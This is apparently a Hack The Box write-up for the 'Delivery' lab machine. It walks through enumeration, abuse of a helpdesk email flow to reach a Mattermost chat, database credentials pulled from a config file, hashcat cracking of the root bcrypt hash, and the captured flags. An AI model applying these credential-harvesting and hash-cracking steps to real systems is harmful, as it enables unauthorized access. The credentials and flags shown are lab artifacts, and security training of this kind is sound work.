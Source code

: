 # HTB: Delivery

## Engagement Overview

Target: Delivery
Box IP: 10.10.10.222
Date: 2025-09-27
Attacker Host: 10.10.14.6

---

### Objectives

- Compromise internal chat system Matter Most.
- Extract credentials and artifacts from internal chat.
- Gain initial foothold via SSH.
- Find root hashes and crack with found artifacts.
- Escalate and capture `user.txt` and `root.txt`.

---

## Service Enumeration

### Nmap

```bash
sudo nmap -sC -sV -p- -oN logs/nmap.full 10.10.10.222
```

```bash
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    nginx 1.14.2
8065/tcp open  http    Golang net/http server
```

### Web Discovery

- Port 80 leads us to a linked vhost `helpdesk.delivery.htb`
- Cannot sign-up due to email limitations, but ticket creation/status is available with internal email generation:


![screenshot](assets/20250927-060311.png)

- Port 8065 leads to what looks like an internal chat system.
- Requires corp email activation to sign up and login, used miss configured support center ticket system.
- Access gained.


![screenshot](assets/20250927-063509.png)

- Given the information we'll be looking for user hashes and cracking with `PleaseSubscribe!`
- Credential found: `maildeliverer:Youve_G0t_Mail!`

---

## Initial Access

Ssh in as maildeliverer and retrieved flag:

```bash
maildeliverer@Delivery:~$ cat user.txt
bb350daf736a264d361f98d26e6b0e1a
```

Found mysql creds in matter most config.json:

```bash
"DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
```

## Privilege Escalation

### Abusing Saved Credential

```bash
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -pCrack_The_MM_Admin_PW mattermost
```

```mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 96
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mattermost]> 
MariaDB [mattermost]> select * from Users;
---
MariaDB [mattermost]> select Username,Password from Users;

| root | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

Cracking hash:

```bash
cat hash.txt   
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO

cat pass.list 
PleaseSubscribe!

# Cracking
hashcat -m 3200 hash.txt pass.list --user -r /usr/share/hashcat/rules/best64.rule

Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21
```

Root:

```bash
maildeliverer@Delivery:/opt/mattermost/config$ su -
Password: 
root@Delivery:~# ls
mail.sh  note.txt  py-smtp.py  root.txt
root@Delivery:~# cat root.txt
48f92a09c818a0266078b0605cf942e7

# Cute note
root@Delivery:~# cat note.txt
I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the box is here: 

- https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c 

Keep on hacking! And please don't forget to subscribe to all the security streamers out there.

- ippsec
```

## House Cleaning

- No persistence or artifacts left on target.  

## Tools Utilized

- `nmap`, `ssh` `mysql`, `hashcat`

## Key Takeaways

- Mattermost (or similar chat systems) is a high-value target for credential harvesting when internal email activation or invite flows are misconfigured or leaking tokens.
- Web vhosts and helpdesk portals often contain useful disclosure (tickets, attachments) that can reveal internal usernames, email addresses, or temporary tokens.
- Always check for credential reuse between web apps, databases, and SSH.
